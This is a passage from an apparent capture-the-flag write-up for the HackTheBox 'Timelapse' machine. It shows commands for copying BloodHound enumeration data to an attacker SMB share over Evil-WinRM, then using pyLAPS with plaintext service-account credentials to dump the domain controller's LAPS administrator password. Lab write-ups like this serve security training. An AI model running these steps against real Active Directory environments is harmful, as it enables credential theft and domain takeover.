 ```bash
2025-08-02T07:12:26.2687498-07:00|INFORMATION|SharpHound Enumeration Completed at 7:12 AM on 8/2/2025! Happy Graphing!
```

### Copying zip to linux

```bash
net use n: \\10.10.14.28\share
The command completed successfully.

*Evil-WinRM* PS C:\Users\legacyy\Documents> copy 20250801192605_BloodHound.zip n:\

```

## Enumeration from svc_deploy

<img width="730" height="346" alt="image" src="https://github.com/user-attachments/assets/db341c88-5c06-49c2-b0d1-90347d85cc8c" />


Here we can see svc_deploy is a part of the laps reader group and have readlaps password rights over the domain.

## Exploiting laps read privileages

We can use the [pylaps.py](http://pylaps.py) file form github and dump all the laps password

```bash
git clone https://github.com/p0dalirius/pyLAPS
cd pyLAPS
python -m venv .myenv
source .myenv/bin/activate
pip install -r requirements.txt
```

### Running pylaps

```bash
python pyLAPS.py --action get -d "timelapse.htb" -u "svc_deploy" -p 'E3R$Q62^12p7PLlC%KWaxuaV' --dc-ip "10.10.11.152"
                 __    ___    ____  _____
    ____  __  __/ /   /   |  / __ \/ ___/
   / __ \/ / / / /   / /| | / /_/ /\__ \   
  / /_/ / /_/ / /___/ ___ |/ ____/___/ /   
 / .___/\__, /_____/_/  |_/_/    /____/    v1.2
/_/    /____/           @podalirius_           
    
[+] Extracting LAPS passwords of all computers ... 
  | DC01$                : 67k8!2(4A7Ck81%!3.6r3M&q
[+] All done!
```

## Shell as Administrator
